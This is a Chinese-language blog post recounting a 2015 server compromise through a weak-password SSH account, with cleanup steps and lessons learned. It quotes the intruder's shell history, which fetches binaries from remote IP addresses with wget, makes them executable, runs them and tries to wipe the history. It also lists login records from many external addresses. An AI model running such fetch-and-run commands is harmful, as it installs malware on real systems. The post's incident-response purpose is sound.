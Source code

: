 title: "服务器被黑了!"
date: 2015-04-14 00:01:27
tags:
  - 被黑了
  - 服务器日志
categories: Server
keywords:
  - Pandorabox
  - Hacked
  - 渣渣
  - Arylo
  - Lintel
---

> 20150413 11:15PM, 准备睡觉的时候, lintel大大打给我说, 服务器上传流量异常.

# 我是那个时刻准备着(误)的三好程序猿
作为一个门口埋好地雷, 深夜三分钟即时上线的程序员, 立刻打开那台慢到掉渣的手提, 来处理这事.

既然有上传, 就是说程序还在运行中, 而且这服务器还没有开始正式投入, 负载不高, 稍微`top`一下就发现一个叫`prfos`的程序在跑.
查了一下, 是git用户运行它的.
遭了, 那是调试用, 所以随便弄了个弱密码, 现在被别人弄进来了....哎..我的错

# 他干了什么?
我跳到`/home/git`目录, 发现`.bash_history`还在, 天助我也!!

## 这是他执行的命令

```
su arylo
w
cat /proc/cpuinfo
ls
w
cat /proc/cpuinfo
ls
ps -x
uname -a
ss
cd //tmp
wget http://122.224.32.6:5547/prfos
wget http://183.60.110.3:6219/netns
chmod 7777 ./netns
./netns
chmod 7777 ./prfos
./prfos
cat /dev/null > ./.bash_history
```

看到第一句, 我还是蛮开心的, 至少我的密码没有被破解, 估计他觉得和git一样是弱密码,
后面的基本不用说了, 下载木马, 运行它们.
但有一句让我哭笑不得的命令出现了
`cat /dev/null > ./.bash_history`
我不知道说他是小菜鸟还是粗心什么的, 竟然可以出现这样的失误...导致我看到以上这些命令

## 停止它吧
好了, 竟然知道运行了什么, 就搜一搜怎样消灭他呗
可是无论是谷娘还是度娘, 但就是没有相关杀除的信息, 是毒性不强的问题吧?
```
arylo@localhost:/tmp$ ps -A|grep prfos
20244 ?        00:57:31 prfos
arylo@localhost:/tmp$ ps -A|grep netns
   12 ?        00:00:00 netns
20219 ?        00:00:10 netns
```
只好手动rm他们, 再kill一下他们, 并祈祷不要再运行了

PS.主要是git用户运行的程序不多, 所以基本可以找到那个是有问题的

# 还有谁

```
arylo@localhost:/proc$ last
lintel   pts/1        li406-14.members Mon Apr 13 15:54   still logged in
arylo    pts/0        183.37.34.131    Mon Apr 13 15:06   still logged in
git      pts/0        58.46.18.253     Mon Apr 13 04:54 - 04:54  (00:00)
test     pts/0        113.98.255.48    Sun Apr 12 23:32 - 23:32  (00:00)
git      pts/0        114.112.54.22    Sun Apr 12 19:48 - 20:00  (00:11)
test     pts/0        192.3.159.181    Sat Apr 11 18:04 - 18:04  (00:00)
test     pts/0        27.112.8.214     Sat Apr 11 12:51 - 12:51  (00:00)
test     pts/0        li610-201.member Fri Apr 10 16:09 - 16:09  (00:00)
git      pts/0        198.23.132.34    Fri Apr 10 11:51 - 11:51  (00:00)
test     pts/0        f499.fuchsia.fas Thu Apr  9 04:54 - 04:54  (00:00)
test     pts/0        195.154.165.112  Wed Apr  8 13:36 - 13:36  (00:00)
test     pts/0        c099-250.cloud.g Tue Apr  7 09:17 - 09:17  (00:00)
test     pts/0        113.98.255.48    Mon Apr  6 16:35 - 16:35  (00:00)
test     pts/0        176.111.32.9     Mon Apr  6 14:54 - 14:54  (00:00)
arylo    pts/0        14.157.176.72    Sat Apr  4 06:40 - 14:00  (07:19)
arylo    pts/0        183.37.30.83     Fri Apr  3 16:52 - 20:12  (03:19)
arylo    pts/1        li729-87.members Fri Apr  3 10:17 - 10:34  (00:17)
arylo    pts/0        li729-87.members Fri Apr  3 09:24 - 10:20  (00:56)
arylo    pts/0        li729-87.members Fri Apr  3 09:13 - 09:24  (00:10)
arylo    pts/0        li729-87.members Fri Apr  3 09:11 - 09:13  (00:01)
arylo    pts/0        li729-87.members Fri Apr  3 08:47 - 09:08  (00:21)
git      pts/0        bolobolo1.torser Thu Apr  2 13:47 - 13:47  (00:00)
git      pts/0        tor.scenehoster. Thu Apr  2 13:19 - 13:20  (00:00)
```

为了保证以后的不再出现这种事情, last了一下,
精了Σ( ° △ °|||)︴
竟然这么多, IP都搜一下, 好像都是肉鸡, 好在没有对这服务器做什么...
除了git, 还有test, 都是弱密码的主...还是我的（﹀＿﹀）

# 总结

总结一下这件事所暴露的问题和解决方法
> Q: SSH一下被人登上了（┬＿┬）
> A: 改SSH的端口, 保证安全性
>
> Q: 弱密码惹的祸
> A: 以后不能这样了, 内部的都要改一下
>
> Q: 竟然被人运行了程序
> A: 以后真的要分配好权限...test用户给人跑进来了, 不过设置了`nologin`, 所以没事
> A: 还有还有, 以后真的一用户一类程序比较好
> A: 定期更新密码说不定是个好方法?
